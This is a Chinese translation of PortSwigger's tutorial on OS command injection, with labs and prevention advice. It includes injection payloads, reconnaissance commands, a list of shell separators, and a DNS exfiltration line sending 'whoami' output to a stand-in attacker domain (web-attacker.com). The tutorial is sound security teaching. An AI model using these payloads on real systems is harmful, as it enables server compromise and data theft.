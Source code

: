 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/os-command-injection'
---
```


# 操作系统命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%285%29%20%283%29%20%283%29%20%283%29%20%284%29.png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下网址访问：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储ID作为参数调用shell命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定项目的库存状态，并返回给用户。

由于该应用程序无法防御OS命令注入，因此攻击者可以提交以下输入以执行任意命令：

```text
& echo aiwefwlguh &
```

如果此输入是在productID参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

echo命令只是使提供的字符串在输出中回显，并且是测试某些类型的OS命令注入的有用方法。 ＆字符是shell命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not providedaiwefwlguh29: command not found
```

输出的三行表明：

* 原始的stockreport.pl命令在没有预期参数的情况下执行，因此返回了错误消息。
* 执行注入的echo命令，并且在输出中回显提供的字符串。
* 原始参数29作为命令执行，从而导致错误。

通常，将附加命令分隔符＆放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了随后发生的事情将阻止注入的命令执行的可能性。

**实验室**[OS命令注入，简单案例](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 有用的命令

当您确定了OS命令注入漏洞后，通常可以执行一些初始命令来获取有关您受到破坏的系统的信息。 以下是在Linux和Windows平台上有用的一些命令的摘要：

| 命令目的 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行过程 | `ps -ef` | `任务列表` |

## 盲操作系统命令注入漏洞

OS命令注入的许多实例都是盲目的漏洞。 这意味着应用程序不会在其HTTP响应中返回命令的输出。 盲目漏洞仍然可以被利用，但是需要不同的技术。

考虑一个允许用户提交有关该站点的反馈的网站。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序会向站点管理员生成一封包含反馈的电子邮件。 为此，它使用提交的详细信息调出邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail命令的输出（如果有）不会在应用程序的响应中返回，因此使用echo有效负载将无效。 在这种情况下，您可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测盲注OS命令注入

您可以使用注入的命令来触发时间延迟，从而允许您根据应用程序响应的时间来确认命令已执行。 ping命令是执行此操作的有效方法，因为它使您可以指定要发送的ICMP数据包的数量，从而指定该命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序ping其环回网络适配器10秒钟。

**实验室**[带有延迟的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#detecting-blind-os-command-injection-using-time-delays)

### 通过重定向输出来利用盲OS命令注入

您可以将注入命令的输出重定向到web根目录下的文件中，然后可以使用浏览器进行检索。 例如，如果应用程序从文件系统位置/var/www/static提供静态资源，则可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

&gt;字符将whoami命令的输出发送到指定文件。 然后，您可以使用浏览器获取[https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。](https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。)

使用带外（OAST）技术利用盲OS命令注入

您可以使用注入的命令，通过OAST技术触发与您控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用nslookup命令对指定域进行DNS查找。 攻击者可以监视是否发生了指定的查找，从而检测到命令已成功注入。

带外通道还提供了一种从注入的命令中提取输出的简便方法：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对包含whoami命令结果的攻击者域的DNS查找：

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

**实验室**[带带外数据渗透的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 注入OS命令的方式

可以使用各种shell元字符来执行OS命令注入攻击。

许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于Unix的系统上工作：

* `;`
* Newline \(`0x0a` or `\n`\)

在基于Unix的系统上，您还可以使用反引号或美元字符在原始命令内对注入的命令执行内联执行：

* \`\`\` 注入命令 \`\`\`
* `$(` 注入命令 `)`

请注意，不同的shell元字符具有细微不同的行为，这可能会影响它们是否在某些情况下起作用，以及它们是否允许带内检索命令输出或仅对盲目利用有用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用引号终止上下文（使用“或”），然后再使用适当的shell元字符来插入新命令。

## 如何防止OS命令注入攻击

到目前为止，防止OS命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用OS命令。 几乎在每种情况下，都有使用更安全的平台API来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用OS命令，则必须执行强输入验证。 有效验证的一些示例包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

切勿尝试通过转义shell元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。

